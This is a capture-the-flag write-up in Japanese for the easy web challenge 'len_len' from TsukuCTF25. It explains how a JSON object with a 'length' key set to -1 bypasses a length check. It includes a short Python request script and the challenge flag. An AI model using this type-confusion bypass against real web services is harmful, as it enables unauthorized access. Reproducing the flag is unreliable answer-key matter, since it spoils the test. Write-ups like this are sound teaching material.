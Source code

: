 ```yaml
---
title: len_len
description: 
author: xryuseix
genre: web
solver: 0 
point: 0
---
```


# len_len

## 問題文
"length".length is 6 ?

## 難易度
easy

## 解法

この2つの条件を通過する必要があります。

* `if (sanitized.length < 10) {`
* `if (array.length < 0) {`

1つ目は文字列の長さがある程度あればいいので簡単ですが、2つ目はJSONとしてパースした時に長さが負ある必要性があるため、難しいです。そこで、`array.length`ではなく、Objectのキーとして`length`を持つオブジェクトを渡すことで、JSONとしてパースした時に`length`の値が負になるようにします。

```js
{
  "length": -1
}
```

これをPythonで実装すると以下のようになります。

```py
import requests

def request(payload) -> str:
    endpoint = "http:/challs.tsukuctf.org:28888"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = {"array": payload}
    response = requests.post(endpoint, headers=headers, data=data)
    return response.text

payload = '{"length":-1}'
response_text = request(payload)
print(response_text)
```

`TsukuCTF25{l4n_l1n_lun_l4n_l0n}`
